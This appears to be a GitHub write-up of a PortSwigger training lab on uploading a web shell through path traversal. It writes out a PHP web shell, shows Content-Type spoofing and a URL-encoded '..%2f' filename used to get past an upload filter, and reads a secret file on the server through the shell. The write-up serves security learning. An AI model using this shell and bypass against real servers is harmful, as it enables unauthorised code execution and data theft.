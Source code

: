 ## Welcome, my friend. Today we will start the [3. File Upload lab](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-path-traversal) in ```portswigger```

# Explain this Scenario:

## Prevent the execution of files in directories accessible by users

### Preventing uploading dangerous files:
#### It is always best to prevent dangerous file types from being uploaded in the first place. However, if some files of these types leak to the server, the second step is to prevent the execution of any scripts that may be present.

### How to prevent scripts from executing:
#### Check ```MIME type```: The server is configured to run only scripts that match the ```MIME``` type it is configured to run. If the MIME type of the file does not match what is expected, the server may display an error message or present the file contents as plain text instead of playing it.

 Example:

```
GET /static/exploit.php?command=id HTTP/1.1
Host: normal-website.com
```

### Response:

```
HTTP/1.1 200 OK
Content-Type: text/plain
Content-Length: 39

<?php echo system($_GET['command']); ?>
```

### In this scenario, if the server displays the file contents as plain text, the script was not executed, which reduces the risk of a malicious web shell.


## How to do it:

#### ```Test server settings```: Try uploading a file to a directory that is not supposed to contain files uploaded by users. Check how the server handles files with unexpected extensions.
#### ```Response Check```: Monitor how the server handles different types of files and the server's response when trying to access these files.


-------------

# Let's play this lab:

![image](https://github.com/user-attachments/assets/d9738287-1a35-4bb6-8818-d5ed6adba224)


#### Let's log in to your own account using the following credentials: ```wiener:peter```

![image](https://github.com/user-attachments/assets/1b7229a1-3813-48f9-b6f0-0dcc0d603e78)


#### Let's create a php malicious payload in file ```tor.php```:

### within tor.php:

```
<?php
    echo system($_GET["tor"]);
?>
```

![image](https://github.com/user-attachments/assets/295203de-7776-489e-b02f-df7db4e826ee)

### Now, Let's upload this malicious payload to server.


![image](https://github.com/user-attachments/assets/cadd334c-4afb-45e0-9b65-99acf94e6f97)

#### WOW! The file has been uploaded successfully.

### From Task 1, we explore that our file is within this path ```/files/avatars/file_name?parameter=command``` like this:

```
/files/avatars/tor.php?tor=id
```

![image](https://github.com/user-attachments/assets/2ba96ebf-d955-4ac6-b9a9-659ca6a786c5)

#### Hmmm, no there any thing! I think due ```MIME type```
### ok Let's open the burp tool to explore what happen.

![image](https://github.com/user-attachments/assets/b72f936b-4319-48cd-9f2e-eb3599050cd3)

#### Well, Let's change this ```Content-Type: application/x-php``` to ```Content-Type: image/jpeg```:

#### we know that this path ```/files/avatars/any_file``` is protect form malicios files, So we save our file in other path, we will using  ```Path Traversal``` to help us bypassing this path.

### We change file name to ```../tor.php``` 


![image](https://github.com/user-attachments/assets/4f0bb4a1-11a7-44ea-8bdc-170ed1af6b5e)

### Hmm, there here filter to remove ```/``` , So we instead of ```%2f``` . this is url encoding. it becomes:

```
..%2ftor.php
```

![image](https://github.com/user-attachments/assets/516ee7fc-eb97-4489-9826-c8fc05ada633)


![image](https://github.com/user-attachments/assets/c0ac5ca2-b0c4-4dd5-93bd-259a931f0963)

### Well done! we change this path and become ```/files/tor.php?tor?id``` and not /files/avatars/tor.php?tor=id:

![image](https://github.com/user-attachments/assets/29b76d1f-1065-4a33-862b-c33930efc249)



#### Ok this task requrie reach to /home/carlos/secret file.

```
/files/tor.php?tor=cat /home/carlos/secret
```

![image](https://github.com/user-attachments/assets/818b4872-10da-4ba5-98e8-5647811ef465)


#### alert: this secret is douple, copy single secret only.
### Let's Submit this secret using the button provided in the lab banner. 

![image](https://github.com/user-attachments/assets/321a05ba-4d07-450f-9233-f998e1641301)

## Then ...

![image](https://github.com/user-attachments/assets/a93cc937-f1e6-4d5f-839a-66e768d982fe)


### Done! Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/32addc8d-e9ac-4015-96e3-5007eae85ec6" >
</p>









